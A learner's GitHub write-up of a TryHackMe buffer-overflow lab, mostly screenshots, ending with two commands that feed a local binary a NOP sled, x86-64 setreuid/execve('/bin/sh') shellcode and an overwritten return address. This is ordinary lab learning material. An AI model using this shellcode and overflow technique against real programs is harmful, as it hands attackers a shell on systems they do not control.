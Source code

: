 <p align="center">December 5, 2024</p>
<p align="center">Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure.<br>
It´s part of my $$\textcolor{#FF69B4}{\textbf{213}}$$-day-streak in  <a href="https://tryhackme.com/r/hacktivities">TryHackMe</a>.</p>

<h1 align="center">
  $$\textcolor{#3bd62d}{\textnormal{Buffer Overflows}}$$
</h1>
<p align="center">Learn how to get started with basic Buffer Overflows!</p>
<p align="center">Note that only subscribers can deploy virtual machines in this room, <a href="https://tryhackme.com/r/room/bof1">Bounty Hacker</a>.</p>
                                                              
<p align="center">
  <img height="150px" hspace="20" src="https://github.com/user-attachments/assets/b096f7af-58d7-406a-ac2b-01f9cfb0558d">
  <img width="900px" src="https://github.com/user-attachments/assets/b4e0bb2c-32da-4294-a102-3b35e3d02b20">
</p>


<h2>Introduction</h2>

![image](https://github.com/user-attachments/assets/22c39b6d-3e68-45ca-9515-6ba0ae8753c4)

<h2>Process Layout</h2>

![image](https://github.com/user-attachments/assets/e2c0f388-2df4-486b-828d-f07fb8c42421)


<h2>x86-64 Procedures</h2>

![image](https://github.com/user-attachments/assets/21a2694e-4ccc-4d1e-86d6-8c000540a81b)


<h2>Procedures Continued</h2>

![image](https://github.com/user-attachments/assets/cc08f37d-ccd5-4179-ac32-19f90ce58696)

<h2>Endianess</h2>

![image](https://github.com/user-attachments/assets/ce6144b4-e320-4aa9-b461-19a30d1ed03c)


<h2>Overwriting Variables</h2>

![image](https://github.com/user-attachments/assets/edbbdd54-b261-4538-8dd4-b88a83ad1a28)


<h2>Overwriting Function Pointers</h2>

![image](https://github.com/user-attachments/assets/fc36d53e-4ae3-43f5-813e-764e35f688d2)

<br>
<h2>Buffer Overflows</h2>

![image](https://github.com/user-attachments/assets/83a118ec-4cdd-4f98-8ab4-91e1eeacf566)


<p>to be continued</p>


<br>
<h2>Buffer Overflows 2</h2>

![image](https://github.com/user-attachments/assets/dff71db4-0e60-41e9-9c51-83c40e6bced6)

![image](https://github.com/user-attachments/assets/9a6e21ab-93bd-4a5d-b7f2-f0501d14ad1c)

![image](https://github.com/user-attachments/assets/aef228ce-97a2-4438-a1ca-f2de52f77ff5)

![image](https://github.com/user-attachments/assets/9e8e2675-0583-48f6-acbd-c015bd1176ad)

<pre><code>run $(python -c "print('A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6)")</code></pre>

![image](https://github.com/user-attachments/assets/1995e8ea-eda0-40a4-be28-bd5665fd878b)

<pre><code>./buffer-overflow-2 $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*19 + '\x78\xe2\xff\xff\xff\x7f')")
</code></pre>

![image](https://github.com/user-attachments/assets/6a745b72-f5c2-420a-bd9b-b89e5b7b019d)


















